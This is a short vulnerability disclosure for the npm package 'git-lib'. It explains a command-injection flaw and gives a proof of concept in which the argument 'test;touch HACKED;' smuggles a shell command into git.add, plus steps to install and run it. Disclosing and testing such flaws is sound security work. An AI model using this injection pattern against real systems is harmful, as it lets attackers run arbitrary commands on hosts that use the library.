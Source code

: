 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var git = require("git-lib");
git
  .add("test;touch HACKED;")
  .then(function () {
    /** successfully added **/
  })
  .catch(function (err) {
    /** unsuccessful **/
  });
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i git-lib # Install affected module
git init # Avoid problems with *git*
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created
